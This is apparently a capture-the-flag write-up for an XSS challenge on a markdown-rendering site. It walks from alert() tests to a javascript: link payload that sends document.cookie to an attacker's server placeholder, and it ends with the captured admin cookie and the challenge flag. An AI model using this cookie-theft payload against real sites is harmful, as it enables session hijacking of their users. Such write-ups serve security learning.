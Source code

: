 # Writeup

### Challenge available at `https://mistune.flatearth.fluxfingers.net/`

# Description:
 Try to steal admin cookie. Admin will click on ```<a>``` tag. This challenge has XSS vulnerability by which you can use it to steal admin cookie.

# Test:

After searching for a while i found this maybe useful ```<javascript:alert('xss')>```, and the result:
![XSS-Test](https://github.com/quanght55/CTFWriteups/blob/master/hackiu/mistune/images/mistune-test-xss.png)

Then i try ```<javascript:alert(document.cookie)>```, the result:
![Cookie-Test](https://github.com/quanght55/CTFWriteups/blob/master/hackiu/mistune/images/mistune-test-cookie.png)

# Exploit:

After testing, i will try to get current session to my server before send script to admin
```<javascript:document.location='your/server/here/cookie.php?cookie='+document.cookie>``` then i receive this:
![Cookie-to-server](https://github.com/quanght55/CTFWriteups/blob/master/hackiu/mistune/images/mistune-get-cookie-test.png)
Now we are ready to steal admin cookie ```<javascript:document.location='your/server/here/cookie.php?cookie='+document.cookie>```
And #BINGO
![Admin-cookie](https://github.com/quanght55/CTFWriteups/blob/master/hackiu/mistune/images/mistune-admin-cookie.png)
# flag{92da883eb1df9d1287ff25f1a1099f29}
